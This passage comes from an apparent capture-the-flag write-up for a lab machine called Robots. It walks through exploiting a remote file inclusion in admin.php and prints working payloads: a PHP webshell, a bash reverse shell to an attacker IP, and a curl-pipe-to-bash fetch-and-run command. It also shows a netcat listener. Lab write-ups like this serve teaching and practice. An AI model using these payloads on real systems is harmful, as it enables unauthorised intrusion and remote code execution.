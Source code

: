 ![Robots Thm Admin](robots_thm_admin.webp){: width="1200" height="600"}

To test this, we submit a URL for our own web server (`http://10.8.64.79/test`).

![Robots Thm Admin Test](robots_thm_admin_test.webp){: width="1200" height="600"}

We observe a request being made to our server:

```console
10.10.78.224 - - [15/Mar/2025 15:22:24] code 404, message File not found
10.10.78.224 - - [15/Mar/2025 15:22:24] "GET /test HTTP/1.1" 404 -
```

The `admin.php` page also prints an error message indicating that our URL was passed to the **`include()` function**—a sign of **Remote File Inclusion (RFI)**.

![Robots Thm Admin Test Error](robots_thm_admin_test_error.webp){: width="1200" height="600"}

> Usually, the `include()` function does not work with `URLs` by default. However, if we go back to the output of `phpinfo()`, we can see that `allow_url_include` is set to `On`, which is why it works in this case. But, even if this were not the case, we could still execute commands using **PHP filter chains**.
{: .prompt-tip }

Since remote file inclusion is possible, we create a simple webshell on our server:

```console
$ echo '<?php system($_REQUEST["cmd"]); ?>' > cmd.php
```

Now, we submit the URL for our webshell (`http://10.8.64.79/cmd.php`) to the **admin.php** form and pass a command (`cmd=id`).

We observe the request for `cmd.php` on our server:

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.78.224 - - [15/Mar/2025 16:08:03] "GET /cmd.php HTTP/1.1" 200 -
```

And we see the **command output** in the response.

![Robots Thm Admin Rfi](robots_thm_admin_rfi.webp){: width="1100" height="500"}

To get a shell using this, we prepare a reverse shell payload on our web server:

```console
$ echo '/bin/bash -i >& /dev/tcp/10.8.64.79/443 0>&1' > index.html
```

Then, we use the same method of including our webshell to run the command `curl 10.8.64.79|bash`.

![Robots Thm Admin Reverse Shell](robots_thm_admin_reverse_shell.webp){: width="600" height="500"}

Looking at our listener, we can see that we successfully obtain a shell as the `www-data` user inside a container.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.64.79] from (UNKNOWN) [10.10.78.224] 33006
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@robots:/var/www/html/harm/to/self$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
www-data@robots:/var/www/html/harm/to/self$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443
```